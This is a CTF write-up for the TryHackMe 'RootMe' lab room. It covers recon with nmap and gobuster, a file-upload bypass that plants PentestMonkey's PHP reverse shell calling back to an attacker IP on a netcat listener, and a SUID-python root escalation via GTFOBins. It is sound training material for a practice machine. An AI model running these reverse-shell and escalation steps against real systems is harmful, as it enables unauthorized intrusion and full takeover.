







# RootMe — TryHackMe Write-up  

_Target IP: **10.10.2.71**_  

> This write-up walks through every task in the **RootMe** room, from deployment to privilege escalation.  
> Replace the screenshot filenames (`screenshot1.png`, `screenshot2.png`, …) with your own captures.

---

## Task 1 – Deploy the Machine  

1. Click **“Start Machine”** in the room.  
2. Note the target’s IP once it boots up.  
   ```
   Victim IP: 10.10.2.71
   ```
---

## Task 2 – Reconnaissance  

### 1 . Port scan  

```bash
nmap -sV 10.10.2.71
```

| Port | Service | Version |
|------|---------|---------|
| 22   | ssh     | OpenSSH 7.6p1 Debian 4+deb9u4 |
| 80   | http    | Apache **2.4.29** (Ubuntu)    |

> **Answers**  
> *How many ports are open?* **2**  
> *What version of Apache is running?* **2.4.29**  
> *What service is running on port 22?* **ssh**



### 2 . Directory brute-force  

```bash
# Ensure wordlist is present
sudo mkdir -p /usr/share/wordlists/dirb
sudo wget https://raw.githubusercontent.com/v0re/dirb/master/wordlists/common.txt      -P /usr/share/wordlists/dirb/

gobuster dir   -u http://10.10.2.71/sitemap   -w /usr/share/wordlists/dirb/common.txt
```

Key finding:

```
/panel/      (Status: 301)
```



---

## Task 3 – Getting a Shell  

1. Browse to `http://10.10.2.71/panel/` — it exposes a file-upload form.  
2. Grab **PentestMonkey’s PHP reverse shell**:  

   ```bash
   wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
   ```

3. Edit two lines, then save as **`shell.php5`** (the unusual extension bypasses filters):

   ```php
   $ip   = '10.11.137.220';   // ← your tun0 / VPN IP
   $port = 1234;              // listener port
   ```

   

4. Upload `shell.php5` via `/panel/`.  
5. Start a listener:

   ```bash
   nc -lvnp 1234
   ```

6. Trigger the payload:

   ```
   http://10.10.2.71/uploads/shell.php5
   ```

7. Upgrade the TTY:

   ```bash
   python -c 'import pty, os; pty.spawn("/bin/bash")'
   export TERM=xterm
   ```

8. Grab **user.txt**:

   ```bash
   find / -type f -name user.txt 2>/dev/null
   # -> /var/www/user.txt
   cat /var/www/user.txt
   ```

   

---

## Task 4 – Privilege Escalation  

### 1 . Find SUID binaries  

```bash
find / -user root -perm -4000 -type f 2>/dev/null
```

Notable hit:

```
/usr/bin/python
```



### 2 . GTFOBins technique  

According to [GTFOBins → python → SUID](https://gtfobins.github.io/gtfobins/python/#suid):

```bash
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

You now have a **root shell** (`#` prompt).

### 3 . Read **root.txt**  

```bash
find / -type f -name root.txt 2>/dev/null
# -> /root/root.txt
cat /root/root.txt
```



---

## Flags  

| Flag | Location | Proof |
|------|----------|-------|
| **user.txt** | `/var/www/user.txt` | `THM{...}` |
| **root.txt** | `/root/root.txt`    | `THM{...}` |

---

### Clean-up  

- Exit the root shell: `exit` twice.  
- Stop your Netcat listener.  
- Terminate the THM VM if you’re finished to avoid idle timeouts/billing.

---

**Done — you now own RootMe!** 🎉
